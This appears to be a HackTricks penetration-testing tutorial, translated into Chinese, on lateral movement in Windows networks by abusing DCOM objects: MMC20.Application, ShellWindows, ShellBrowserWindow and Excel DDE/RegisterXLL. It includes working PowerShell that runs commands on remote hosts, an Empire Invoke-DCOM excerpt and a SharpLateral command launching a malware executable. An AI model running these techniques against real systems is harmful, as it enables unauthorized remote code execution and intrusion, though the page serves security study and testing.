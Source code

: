 # DCOM Exec

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* 如果您在**网络安全公司**工作，想在**HackTricks**上看到您的**公司广告**，或者想要获取**PEASS最新版本或下载HackTricks的PDF**？请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* 获取[**官方PEASS & HackTricks周边商品**](https://peass.creator-spring.com)
* **加入**[**💬**](https://emojipedia.org/speech-balloon/) [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**telegram群组**](https://t.me/peass)或在**Twitter**上**关注**我[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* **通过向**[**hacktricks仓库**](https://github.com/carlospolop/hacktricks) **和** [**hacktricks-cloud仓库**](https://github.com/carlospolop/hacktricks-cloud) **提交PR来分享您的黑客技巧。**

</details>

<figure><img src="../../.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

找到对您最重要的漏洞，以便更快修复。Intruder 跟踪您的攻击面，运行主动威胁扫描，在您的整个技术栈中找到问题，从API到Web应用程序和云系统。[**今天就免费试用**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks)。

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

***

## MMC20.Application

**DCOM**（分布式组件对象模型）对象之所以**有趣**，是因为它们能够**通过网络**与对象**交互**。Microsoft 在[这里](https://msdn.microsoft.com/en-us/library/cc226801.aspx)有关于DCOM的好文档，在[这里](https://msdn.microsoft.com/en-us/library/windows/desktop/ms694363\(v=vs.85\).aspx)有关于COM的。您可以通过运行`Get-CimInstance Win32_DCOMApplication`使用PowerShell找到一份完整的DCOM应用程序列表。

[MMC应用程序类（MMC20.Application）](https://technet.microsoft.com/en-us/library/cc181199.aspx)COM对象允许您对MMC插件操作的组件进行脚本化。在枚举这个COM对象中的不同方法和属性时，我注意到在Document.ActiveView下有一个名为`ExecuteShellCommand`的方法。

![](<../../.gitbook/assets/image (4) (2) (1) (1).png>)

您可以在[这里](https://msdn.microsoft.com/en-us/library/aa815396\(v=vs.85\).aspx)阅读更多关于该方法的信息。到目前为止，我们有一个可以通过网络访问并且可以执行命令的DCOM应用程序。最后一步是利用这个DCOM应用程序和ExecuteShellCommand方法在远程主机上获得代码执行。

幸运的是，作为管理员，您可以通过使用“`[activator]::CreateInstance([type]::GetTypeFromProgID`”在PowerShell中远程与DCOM交互。您需要做的就是提供一个DCOM ProgID和一个IP地址。然后它会远程返回一个该COM对象的实例：

![](<../../.gitbook/assets/image (665).png>)

然后可以调用`ExecuteShellCommand`方法在远程主机上启动一个进程：

![](<../../.gitbook/assets/image (1) (4) (1).png>)

## ShellWindows & ShellBrowserWindow

**MMC20.Application**对象缺少明确的“[LaunchPermissions](https://technet.microsoft.com/en-us/library/bb633148.aspx)”，导致默认权限集允许管理员访问：

![](<../../.gitbook/assets/image (4) (1) (2).png>)

您可以在[这里](https://twitter.com/tiraniddo/status/817532039771525120)阅读更多关于该线程的信息。\
使用[@tiraniddo](https://twitter.com/tiraniddo)的[OleView .NET](https://github.com/tyranid/oleviewdotnet)可以查看哪些其他对象没有设置明确的LaunchPermission，它具有出色的Python过滤器（以及其他功能）。在这种情况下，我们可以筛选出所有没有明确设置Launch Permission的对象。在这样做时，有两个对象引起了我的注意：`ShellBrowserWindow`和`ShellWindows`：

![](<../../.gitbook/assets/image (3) (1) (1) (2).png>)

另一种识别潜在目标对象的方法是查找`HKCR:\AppID\{guid}`中缺少`LaunchPermission`值的键。设置了Launch Permissions的对象将如下所示，数据以二进制格式表示对象的ACL：

![](https://enigma0x3.files.wordpress.com/2017/01/launch\_permissions\_registry.png?w=690\&h=169)

那些没有明确设置LaunchPermission的将缺少该特定的注册表项。

### ShellWindows

首先探索的对象是[ShellWindows](https://msdn.microsoft.com/en-us/library/windows/desktop/bb773974\(v=vs.85\).aspx)。由于这个对象没有关联的[ProgID](https://msdn.microsoft.com/en-us/library/windows/desktop/ms688254\(v=vs.85\).aspx)，我们可以使用[Type.GetTypeFromCLSID](https://msdn.microsoft.com/en-us/library/system.type.gettypefromclsid\(v=vs.110\).aspx) .NET方法配合[Activator.CreateInstance](https://msdn.microsoft.com/en-us/library/system.activator.createinstance\(v=vs.110\).aspx)方法通过其AppID在远程主机上实例化该对象。为此，我们需要获取ShellWindows对象的[CLSID](https://msdn.microsoft.com/en-us/library/windows/desktop/ms691424\(v=vs.85\).aspx)，这可以使用OleView .NET完成：

![shellwindow\_classid](https://enigma0x3.files.wordpress.com/2017/01/shellwindow\_classid.png?w=434\&h=424)

如您所见，下面的“Launch Permission”字段为空，意味着没有设置明确的权限。

![screen-shot-2017-01-23-at-4-12-24-pm](https://enigma0x3.files.wordpress.com/2017/01/screen-shot-2017-01-23-at-4-12-24-pm.png?w=455\&h=401)

现在我们有了CLSID，我们可以在远程目标上实例化该对象：
```powershell
$com = [Type]::GetTypeFromCLSID("<clsid>", "<IP>") #9BA05972-F6A8-11CF-A442-00A0C90A8F39
$obj = [System.Activator]::CreateInstance($com)
```
![](https://enigma0x3.files.wordpress.com/2017/01/remote_instantiation_shellwindows.png?w=690&h=354)

在远程主机上实例化对象后，我们可以与之接口并调用任何我们想要的方法。返回的对象句柄揭示了几种方法和属性，但我们无法与之交互。为了实现与远程主机的实际交互，我们需要访问 [WindowsShell.Item](https://msdn.microsoft.com/en-us/library/windows/desktop/bb773970\(v=vs.85\).aspx) 方法，这将返回一个代表Windows shell窗口的对象：
```
$item = $obj.Item()
```
```markdown
![](https://enigma0x3.files.wordpress.com/2017/01/item_instantiation.png?w=416&h=465)

在完全控制了Shell窗口后，我们现在可以访问所有暴露的预期方法/属性。在审查这些方法后，**`Document.Application.ShellExecute`** 显得尤为突出。确保遵循该方法的参数要求，这些要求在[此处](https://msdn.microsoft.com/en-us/library/windows/desktop/gg537745(v=vs.85).aspx)有文档记录。
```
```powershell
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:\windows\system32", $null, 0)
```
正如您在上面看到的，我们的命令已经在远程主机上成功执行。

### ShellBrowserWindow

这个特定对象在Windows 7上不存在，这使得它用于横向移动的能力比“ShellWindows”对象有限，后者我已经在Win7-Win10上成功测试。

根据我对这个对象的枚举，它似乎有效地提供了一个接口进入Explorer窗口，就像前一个对象一样。要实例化这个对象，我们需要获取它的CLSID。类似于上面，我们可以使用OleView .NET：

![shellbrowser\_classid](https://enigma0x3.files.wordpress.com/2017/01/shellbrowser\_classid.png?w=428\&h=414)

再次注意空白的启动权限字段：

![screen-shot-2017-01-23-at-4-13-52-pm](https://enigma0x3.files.wordpress.com/2017/01/screen-shot-2017-01-23-at-4-13-52-pm.png?w=399\&h=340)

有了CLSID，我们可以重复之前对象上采取的步骤来实例化对象并调用相同的方法：
```powershell
$com = [Type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880", "<IP>")
$obj = [System.Activator]::CreateInstance($com)

$obj.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "C:\Windows\system32", $null, 0)
```
![](https://enigma0x3.files.wordpress.com/2017/01/shellbrowserwindow_command_execution.png?w=690&h=441)

如您所见，命令已成功在远程目标上执行。

由于此对象直接与Windows shell接口，我们不需要像之前的对象那样调用“ShellWindows.Item”方法。

虽然这两个DCOM对象可以用来在远程主机上运行shell命令，但还有许多其他有趣的方法可以用来枚举或篡改远程目标。其中一些方法包括：

* `Document.Application.ServiceStart()`
* `Document.Application.ServiceStop()`
* `Document.Application.IsServiceRunning()`
* `Document.Application.ShutDownWindows()`
* `Document.Application.GetSystemInformation()`

## ExcelDDE & RegisterXLL

以类似的方式，可以通过滥用DCOM Excel对象进行横向移动，更多信息请阅读 [https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom](https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom)
```powershell
# Chunk of code from https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1
## You can see here how to abuse excel for RCE
elseif ($Method -Match "DetectOffice") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$isx64 = [boolean]$obj.Application.ProductCode[21]
Write-Host  $(If ($isx64) {"Office x64 detected"} Else {"Office x86 detected"})
}
elseif ($Method -Match "RegisterXLL") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$obj.Application.RegisterXLL("$DllPath")
}
elseif ($Method -Match "ExcelDDE") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$Obj.DisplayAlerts = $false
$Obj.DDEInitiate("cmd", "/c $Command")
}
```
## 自动化工具

* Powershell 脚本 [**Invoke-DCOM.ps1**](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/lateral\_movement/Invoke-DCOM.ps1) 可以轻松调用所有已注释的方式在其他机器上执行代码。
* 你也可以使用 [**SharpLateral**](https://github.com/mertdas/SharpLateral)：
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
## 参考资料

* 第一种方法复制自 [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)，更多信息请点击链接
* 第二部分复制自 [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)，更多信息请点击链接

<figure><img src="../../.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

找到对您最重要的漏洞，以便更快修复。Intruder 跟踪您的攻击面，运行主动威胁扫描，在您的整个技术栈中找到问题，从 API 到 web 应用程序和云系统。[**今天就免费试用**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks)。

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* 您在**网络安全公司**工作吗？您想在 **HackTricks** 中看到您的**公司广告**吗？或者您想要访问**最新版本的 PEASS 或下载 HackTricks 的 PDF**？查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 发现 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家 [**NFTs**](https://opensea.io/collection/the-peass-family) 收藏
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* **加入** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 上**关注**我 [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* **通过向** [**hacktricks 仓库**](https://github.com/carlospolop/hacktricks) **和** [**hacktricks-cloud 仓库**](https://github.com/carlospolop/hacktricks-cloud) **提交 PR 来分享您的黑客技巧。**

</details>
